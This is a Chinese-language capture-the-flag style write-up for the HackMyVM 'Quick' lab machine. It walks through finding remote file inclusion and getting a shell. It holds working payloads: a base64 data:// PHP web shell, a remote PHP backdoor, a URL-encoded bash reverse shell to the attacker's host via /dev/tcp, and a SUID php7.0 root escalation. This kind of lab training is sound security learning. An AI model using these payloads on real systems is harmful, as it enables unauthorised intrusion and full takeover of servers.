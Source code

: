 ```yaml
---
{"dg-publish":true,"tags":["HMV","RFI","SUID提权"],"难度":"⭐️⭐️","作者":"sml","系统":"Linux","permalink":"/24-渗透/HMV/3.quick/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.842+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/3.quick#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/3.quick#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/3.quick#3. 文件包含\|3. 文件包含]]
- [[24-渗透/HMV/3.quick#4. RFI利用\|4. RFI利用]]
	- [[24-渗透/HMV/3.quick#4.1. 姿势1：data://伪协议法\|4.1. 姿势1：data://伪协议法]]
	- [[24-渗透/HMV/3.quick#4.2. 姿势2: 远程文件包含法\|4.2. 姿势2: 远程文件包含法]]
- [[24-渗透/HMV/3.quick#5. 绕过.php\|5. 绕过.php]]
- [[24-渗透/HMV/3.quick#6. SUID 提权\|6. SUID 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Quick
```


```
难度：⭐️⭐️
```


```
知识点：RFI  SUID提权
```

## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.5
Host is up (0.00050s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
```
目录扫描

```Bash
[17:42:29] 200 -  771B  - /about.php
[17:42:36] 200 -  616B  - /contact.php
[17:42:40] 200 -    1KB - /home.php
[17:42:40] 200 -  630B  - /images/
[17:42:40] 301 -  311B  - /images  ->  http://192.168.9.5/images/
```
## 3. 文件包含

访问一下

about.php

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.001.png)

发现主页有一个about按钮，点击后

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.002.png)

会发现下面的内容就是about.php里面的

结合一下这个Url 

/index.php?page=about

很容易猜测出这里有个是有一个文件包含，这里包含了about.php所以这个界面就显示了/about.php的内容

这里我们就要看是本地包含 还是远程文件包含了

先测试远程文件包含

同网段下的kali新建一个test.php 然后里面随便写点东西

然后用Python启一个http服务

```Bash
echo '123123123' >test.php
python3 -m http.server
```
访问网站

```Bash
http://192.168.9.5/index.php?page=http://192.168.9.3/test
```


```<p>192.168.9.3是kali的ip</p><p>192.168.9.5是靶机ip</p>
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.003.png)

成功实现远程文件包含

## 4. RFI利用
### 4.1. 姿势1：data://伪协议法

好处： 直接传数据，不用包含远程服务器上的文件

参考文章：[Quick](https://d4redevilx.github.io/posts/hackmyvm/quick/#escalaci%C3%B3n-de-privilegios)

payload：

```Bash
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg==
```


```<p>这行 PHP 代码使用数据 URL (data URI) 直接在 PHP 代码中提供数据，而无需访问外部文件。</p><p>- data://  表示这是一个数据url</p><p>- text/plain ：指定数据的 MIME 类型，这里为纯文本。</p><p>- ;base64 使用base64编码 避免特殊字符出错</p><p>- ,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnb2snIDs/Pg== 编码数据 解码为
  <?php system($\_GET['cmd']);echo 'ok' ;?></p>
```
执行后成功输出ok

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.004.png)

我们传入参数cmd 执行命令

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.005.png)

成功执行，然后反弹shell，这里需要用url编码

```Bash
cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.9.3%2F1234%200%3E%261%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.006.png)

### 4.2. 姿势2: 远程文件包含法

在kali中启动一个服务器

```Bash
python3 -m http.server 1122
```
服务器上写一个系统马门

```Bash
<?php
system($\_GET['cmd']);
echo 'okok');
?>
```
远程包含后门文件

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.007.png)

这里我们不需要加上.php 因为他会自动给我们补上，

这里也可以绕过这个.php

## 5. 绕过.php

如利用问号 井号绕过等

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.008.png)

使用#绕过时请用url编码

## 6. SUID 提权

```Bash
(remote) www-data@quick:/tmp$ find / -perm -4000 2>/dev/null
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/bin/at
/usr/bin/sudo
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/php7.0
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/fusermount
```
这里面发现php具有suid权限

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.009.png)

```Bash
cd /usr/bin
CMD="/bin/sh"
./php7.0 -r "pcntl\_exec('/bin/sh', ['-p']);"
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/3.quick.010.png)


